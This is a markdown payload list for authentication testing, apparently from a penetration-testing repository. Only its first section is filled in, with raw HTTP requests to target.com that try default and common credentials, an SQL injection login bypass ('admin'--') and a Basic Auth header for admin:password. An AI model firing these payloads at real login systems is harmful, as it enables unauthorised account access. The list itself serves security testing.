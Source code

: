 # Complete Authentication Testing Payloads

This document contains comprehensive authentication testing payloads for identifying vulnerabilities in login systems, session management, and access control mechanisms.

## Table of Contents
1. [Basic Authentication Attacks](#basic-authentication-attacks)
2. [Credential Stuffing](#credential-stuffing)
3. [Brute Force Attacks](#brute-force-attacks)
4. [Password Policy Bypass](#password-policy-bypass)
5. [Session Management](#session-management)
6. [Multi-Factor Authentication Bypass](#multi-factor-authentication-bypass)
7. [OAuth/SSO Vulnerabilities](#oauthsso-vulnerabilities)
8. [API Authentication](#api-authentication)
9. [JWT Attacks](#jwt-attacks)
10. [Advanced Techniques](#advanced-techniques)

---

## Basic Authentication Attacks

### Default Credentials
```http
POST /login HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin
```

### Common Credentials
```http
POST /login HTTP/1.1
Host: target.com
Content-Type: application/json

{"username":"administrator","password":"P@ssw0rd"}
```

### SQL Injection in Login
```http
POST /login HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

username=admin'--&password=anything
```

### HTTP Basic Auth
```http
GET /protected HTTP/1.1
Host: target.com
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
```

---